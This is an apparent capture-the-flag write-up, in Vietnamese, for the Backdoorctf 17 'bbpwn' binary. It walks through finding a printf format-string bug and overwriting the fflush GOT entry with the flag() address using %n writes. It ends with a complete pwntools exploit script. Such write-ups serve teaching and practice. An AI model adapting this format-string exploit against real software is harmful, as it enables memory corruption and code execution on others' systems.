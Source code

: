 ## Backdoorctf 17 bbpwn

* Check security
```
 ❯ checksec 32_new
[*] '/mnt/c/Users/levan/OneDrive/Documents/CTF/NightMare/32_new'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
* Chạy file
```
Hello baby pwner, whats your name?
181818
Ok cool, soon we will know whether you pwned it or not. Till then Bye 181818
```
* Mở ida và xem code
```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s[200]; // [esp+18h] [ebp-200h] BYREF
  char format[300]; // [esp+E0h] [ebp-138h] BYREF
  unsigned int v5; // [esp+20Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  puts("Hello baby pwner, whats your name?");
  fflush(stdout);
  fgets(s, 200, edata);
  fflush(edata);
  sprintf(format, "Ok cool, soon we will know whether you pwned it or not. Till then Bye %s", s);
  fflush(stdout);
  printf(format);
  fflush(stdout);
  exit(1);
}
```
* Ta có thể thấy được bug nằm ở prinf(format) khi nó không kiểm tra đầu vào dẫn đến có thể truyền vào %x hoặc %n để gây ra format string.
* Cũng check được hàm flag(void) là hàm mục tiêu cần truy cập. Địa chỉ của flag() là `0x0804870b`
* Kiểm tra xem đầu vào sẽ nằm ở đâu trên stack, có thể thấy được nó hiển trị ở đầu ra vị trí thứ 11
```
Hello baby pwner, whats your name?
aaaa.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Ok cool, soon we will know whether you pwned it or not. Till then Bye aaaa.8048914.ffffca88.f7fc2420.ffffcad4.f7fd3734.f7b43680.ffffcd54.f7d72b34.f7fc2710.61616161.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825
```
* Chúng ta sẽ dùng %n để ghi đè giá trị lên 1 địa chỉ được trỏ vào, tuy nhiên việc ghi hết 0804870b bytes là rất lớn nên cần chia nhỏ để ghi lần lượt. Chia ra 3 phần gồm 08, 487, 0b. Ta sẽ ghi giá trị đè lên giá trị của hàm fflush. Check được địa chỉ của fflush là
```
 ❯ objdump -R 32_new | grep "fflush"
0804a028 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```
* Như vậy lần đầu tiên ta sẽ ghi vào vào giá trị tại địa chỉ 0x0804a028 (0x0b), lần thứ 2 sẽ là 0x0804a029 (0x4870b), lần thứ 3 là 0x0804a02b (0x0804870b).
* Giá trị hiện tại của fflush
```
gef➤  x/2x 0x0804a028
0x804a028 <fflush@got.plt>:     0x00000052      0xf7a8f510
```
* Như vậy để sửa được 2 bytes cuối ta cần ghi %185x vào địa chỉ 0x0804a028
```
gef➤  x/2x 0x0804a028
0x804a028 <fflush@got.plt>:     0x0000010b      0xf7acd510
```
* Tương tự sẽ là %892x và %129x

* Code đầy đủ
```
from pwn import *
p = process('./32_new')

gdbscript='''
b *0x080487dc
'''
gdb.attach(p, gdbscript=gdbscript)
print(p.recvline())

# Khoi tao dia chi de ghi vao
fflush_adr0 = p32(0x804a028)
fflush_adr1 = p32(0x804a029)
fflush_adr2 = p32(0x804a02b)

# Khoi tao cac input can thiet
fmt_str0 = b'%10$n'
fmt_str1 = b'%11$n'
fmt_str2 = b'%12$n'

# flag values
flag_0 = b'%185x'
flag_1 = b'%892x'
flag_2 = b'%129x'

payload = fflush_adr0 + fflush_adr1 + fflush_adr2 + flag_0 + fmt_str0 + flag_1 + fmt_str1 + flag_2 + fmt_str2

p.sendline(payload)
p.interactive()
```

